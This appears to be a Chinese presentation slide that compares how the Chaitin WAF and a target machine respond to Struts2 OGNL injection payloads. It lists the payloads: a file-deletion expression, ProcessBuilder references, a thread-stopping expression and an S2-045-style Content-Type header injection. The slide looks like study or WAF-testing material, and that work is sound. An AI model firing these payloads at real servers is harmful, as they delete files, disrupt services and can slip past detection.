

注入存在的相关问题
存疑的语句
删除文件   长亭上不是注入 靶机上能生效
%{#f=new java.io.File("C:\\Users\\hp\\Desktop\\关键字1.txt"),#f.delete()}
长亭上是注入 靶机无法生效
%{@java.lang.ProcessBuilder@a()}
长亭上检验结果出现两种 没有一个稳定结果的
%{@java.lang.ProcessBuilder}
这些payload我们应该怎么理解
%{
#a=@java.lang.Thread@currentThread().getThreadGroup(),
#b=#a, #c=#b.getParent(), #env = '',
#while = "#b=#c,#c=#c.getParent(),(#up)(#env)",
#up = "(#c != null)?(#while)(#env):1",
#b.stop()
}
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data